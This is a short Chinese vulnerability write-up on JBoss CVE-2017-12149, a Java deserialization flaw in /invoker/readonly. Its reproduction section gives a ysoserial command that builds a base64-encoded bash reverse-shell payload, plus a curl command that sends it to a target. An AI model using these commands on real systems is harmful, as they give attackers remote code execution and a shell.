

# JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

## 漏洞介绍:

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

## 漏洞分析：

该漏洞出现在`/invoker/readonly`请求中，服务器将用户提交的POST内容进行了Java反序列化：



## 漏洞复现：

java 反弹shell
http://www.jackson-t.ca/runtime-exec-payloads.html

**生成exp**

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,xxxxx}|{base64,-d}|{bash,-i}" > poc.ser
```

**通过curl发送**

```curl
curl http://xxxx:8080/invoker/readonly  --data-binary @poc.ser
```

